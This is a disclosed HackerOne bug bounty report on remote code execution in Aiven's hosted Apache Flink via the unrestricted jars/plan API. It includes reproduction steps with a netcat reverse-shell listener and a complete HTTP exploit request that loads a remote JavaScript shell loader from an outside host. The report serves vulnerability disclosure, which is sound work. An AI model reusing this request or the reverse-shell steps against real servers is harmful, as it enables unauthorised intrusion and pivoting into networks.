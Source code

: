 # Apache Flink RCE via GET jar/plan API Endpoint

## Report Details
- **Report ID**: 1418891
- **URL**: https://hackerone.com/reports/1418891
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-07T12:24:33.484Z
- **Disclosed**: 2022-11-08T06:30:33.425Z

## Reporter
- **Username**: jarij
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: aiven_ltd

## Vulnerability Information
## Summary:

Aiven has not restricted access to the GET `jars/{jar_id}/plan` API. This endpoint can be used to load java class files with the specified arguments that are in the java classpath on the server. This can be abused to gain RCE on the Apache Flink Server.

## Steps To Reproduce:

The video below shows how to setup the Apache Flink instance and run the PoC. Feel free to use my VPS which will make triaging somewhat easier (`ssh ████████`, password: `██████`):

█████████


  1. Login to my aiven account: `████`, password: `██████`
  1. Run the SQL job as demonstrated in the video
  1. Open the Flink Web UI and verify that there is a new job in the jobs panel.
  1. Setup netcat reverse shell listener on the VPS: `nc -n -lvp 8888`
  1. Update the poc.py variables to match your instance, if you are not using my Apache Flink instance
  1. Run the poc: `python3 poc.py`
  1. Reverse shell connection should pop up
 1. After connection has been closed, the Apache Flink will crash, so the Aiven service daemon will  have to restart it. Because of this, you have to run new SQL job after every time you run the poc script

# API Request

Here's the HTTP API request that exploits the issue:

```http
GET /jars/145df7ff-c71a-4f3a-b77a-ee4055b1bede_a.jar/plan?entry-class=com.sun.tools.script.shell.Main&programArg=-e,load("https://fs.bugbounty.jarijaas.fi/aiven-flink/shell-loader.js")&parallelism=1 HTTP/1.1
Host: ████
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Authorization: Basic █████
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Language: en-US,en;q=0.9,fi;q=0.8
```

## Impact

Attacker can execute commands on the server and use this access to potentially pivot into other resources in the network.

## Attachments
- reverse-shell.js
